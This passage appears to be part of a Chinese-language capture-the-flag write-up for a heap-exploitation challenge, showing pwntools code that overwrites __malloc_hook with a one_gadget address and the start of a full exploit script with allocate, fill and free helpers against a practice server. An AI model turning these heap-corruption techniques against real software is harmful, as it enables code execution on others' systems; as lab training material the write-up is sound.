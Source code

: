 ```python
#fill以覆盖__malloc_hook，执行one_gadget
allocate(0x60)
allocate(0x60)
one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * b'a' + p64(one_gadget_addr)
fill(4, len(payload), payload)
allocate(0x100)
```

![0x14](/img/image-20220726004454370.png)

## 完整exp

```python
#方法1
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
p = remote('node4.buuoj.cn',26522 )
def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset
def dbg():
        gdb.attach(p)
        pause()
 
def allocate(size):
    p.recvuntil('Command: ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
 
def fill(idx, size, content):
    p.recvuntil('Command: ')
    p.sendline('2')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Content: ')
    p.send(content)
 
def free(idx):
    p.recvuntil('Command: ')
    p.sendline('3')
    p.recvuntil('Index: ')
    p.sendline(str(idx))
```
